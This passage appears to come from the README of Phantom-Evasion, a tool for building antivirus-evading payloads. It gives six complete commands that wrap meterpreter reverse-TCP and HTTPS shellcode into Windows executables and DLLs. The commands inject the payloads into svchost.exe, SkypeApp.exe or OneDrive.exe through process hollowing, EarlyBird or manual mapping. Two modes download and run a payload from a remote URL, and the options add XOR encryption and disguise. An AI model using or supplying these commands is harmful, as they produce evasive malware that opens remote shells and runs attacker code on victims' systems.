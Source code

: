 ```
python3 phantom-evasion.py -m WSI -msfp windows/meterpreter/reverse_tcp -H 192.168.1.123 -P 4444 -i Thread -e 4 -mem Virtual_RWX -j 1 -J 15 -jr 0 -E 5 -c www.windows.com:443 -f exe -o filename.exe
```

2. windows x64 shellcode injection ,output as reflective dll ,remote execution method: ProcessInject (PI), mem: Virtual_RW/RX , target process: SkypeApp.exe ,encryption: double key xor

```
python3 phantom-evasion.py -m WSI -msfp windows/x64/meterpreter/reverse_tcp -a x64 -H 192.168.1.123 -P 4444 -tp SkypeApp.exe -i PI -e 3 -mem Virtual_RW/RX -j 1 -J 15 -jr 0 -E 5 -f dll -R -o filename.dll
```

3. windows x64 shellcode injection ,output as stripped dll, shellcode stored as resource, remote execution method: EarlyBird (EB) , mem: Virtual_RW/RX , target process: svchost.exe ,encryption: xor

```
python3 phantom-evasion.py -m WSI -msfp windows/x64/meterpreter/reverse_tcp -a x64 -H 192.168.1.123 -P 4444 -tp svchost.exe -i EB -e 2 -mem Virtual_RW/RX -j 1 -J 15 -jr 0 -E 5 -f dll -res -S -o filename.dll
```

4. windows x64 reverse https stager ,output as stripped dll,local execution method: Thread , mem: Heap_RWX

```
python3 phantom-evasion.py -m WRS -a x64 -H 192.168.1.123 -P 4444 -i Thread -mem Heap_RWX -j 1 -J 15 -jr 0 -E 5 -f dll -S -o filename.dll
```

5. windows x86 downloadexec dll ,output as stripped exe ,remote execution method: ManualMap (MM), target process: OneDrive.exe ,downloadsize 1000000 bytes 

```
python3 phantom-evasion.py -m WDD -U http://192.168.1.123/payload.dll -i MM -tp OneDrive.exe -ds 1000000  -j 10 -J 10 -jr 0 -E 10 -f exe -S -o filename.exe

```

6. windows x64 downloadexec exe ,output as stripped reflective dll,remote execution method: ProcessHollowing (PH), target process: svchost.exe ,downloadsize 1000000 bytes 

```
python3 phantom-evasion.py -m WDE -U http://192.168.1.123/payloadcrypt.exe -e 4 -ef payload.exe -i PH -tp svchost.exe -ds 1000000  -j 1 -J 5 -jr 0 -E 3 -f dll -R -S -o filename.dll

```

## License

GPLv3.0

## Credits and usefull resources

https://github.com/stephenfewer/ReflectiveDLLInjection

https://github.com/rsmudge/metasploit-loader
